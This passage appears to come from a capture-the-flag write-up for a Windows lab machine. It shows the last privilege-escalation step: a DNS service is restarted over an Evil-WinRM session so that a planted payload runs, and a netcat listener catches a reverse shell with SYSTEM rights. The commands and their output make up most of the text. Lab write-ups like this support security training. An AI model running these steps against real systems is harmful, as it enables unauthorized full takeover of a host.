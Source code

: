 In another terminal, we prepare a netcat listener to catch the reverse shell.

#### Restarting DNS
Now, we just have to stop and restart the DNS service.
~~~
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute stop dns
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute start dns
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2508
        FLAGS              :
~~~

#### Getting the shell
As we previously set up a listener on our Kali machine, it will catch up a shell when restarting the DNS:
~~~
root@kali:~# nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:51786.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
~~~
